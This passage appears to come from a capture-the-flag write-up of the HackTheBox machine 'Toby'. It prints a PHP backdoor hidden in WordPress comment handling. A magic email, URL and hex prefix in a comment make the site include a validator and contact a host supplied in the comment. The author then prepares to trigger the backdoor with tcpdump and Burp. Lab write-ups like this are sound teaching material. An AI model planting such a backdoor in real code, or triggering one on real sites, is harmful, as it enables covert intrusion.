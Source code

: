 Prettying the code a bit up it looks like a backdoor in the wordpress comment functionality. When the email is `help@toby.htb`, the website `http://test.toby.htb/` and the comment starts with `746f6279` the comment get's split at `:`. Both resulting parts are sent to the `wp_validate_4034a3` function, which seems to be included from `/usr/bin/wordpress_comment_validate`. We don't have access to this piece of code so some guesswork is involved for how which part works. The host part seems to be pretty clear and might just work with an ip address. The sec part might contain any form of encryption key.

```php
<?php
if($comment_author_email == "help@toby.htb" && $comment_author_url == "http://test.toby.htb/" && substr($comment_content, 0, 8) == "746f6279"){
  $a = substr($comment_content, 8);
  $host = explode(":", $a)[0];
  $sec = explode(":",$a)[1];
  $d = "/usr/bin/wordpress_comment_validate";
  include $d;
  wp_validate_4034a3($host, $sec);
  return new WP_Error('unspecified error');
}
?>
```

To see what happens on the network when we specify our ip as the host we start a tcpdump on our vpn interface.

```
$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

We fill in the required parameters to trigger the backdoor, input our ip for the host and something random for the sec part. When we submit the comment we intercept it with burp and send the request to repeater for further playing around with it.

[![035_backdoor_initial](/img/toby/035_backdoor_initial.png)](/img/toby/035_backdoor_initial.png)
